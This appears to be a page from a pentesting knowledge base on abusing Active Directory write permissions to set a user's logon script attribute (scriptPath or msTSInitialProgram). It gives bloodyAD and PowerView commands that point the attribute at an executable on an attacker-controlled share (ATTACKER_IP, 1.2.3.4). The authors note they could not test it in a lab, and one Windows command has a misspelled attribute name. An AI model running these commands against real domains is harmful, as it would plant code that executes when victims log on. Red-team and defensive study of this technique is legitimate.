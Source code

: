 ```yaml
---
authors: CravateRouge, ShutdownRepo
---
```


# Logon script

> [!NOTE]
> It is worth noting that during lab testing, I couldn't find a way to practice this scenario. Since I didn't find practical enough resources on the Internet, feel free to reach out if you manage to exploit this.

This abuse can be carried out when controlling an object that has a `GenericAll` or `GenericWrite` over the target, or a `WriteProperty` premission over the target's logon script attribute (i.e. `scriptPath` or `msTSInitialProgram`).

The attacker can make the user execute a custom script at logon.

::: tabs


=== UNIX-like

This can be achieved with [bloodyAD](https://github.com/CravateRouge/bloodyAD).
```bash
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set object vulnerable_user msTSInitialProgram -v '\\1.2.3.4\share\file.exe'
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set object vulnerable_user msTSWorkDirectory -v 'C:\'

# or
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set object vulnerable_user scriptPath -v '\\1.2.3.4\share\file.exe'
```


=== Windows

This can be achieved with [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```bash

Set-DomainObject testuser -Set @{'msTSTnitialProgram'='\\ATTACKER_IP\share\run_at_logon.exe'} -Verbose

Set-DomainObject testuser -Set @{'scriptPath'='\\ATTACKER_IP\share\run_at_logon.exe'} -Verbose
```


:::
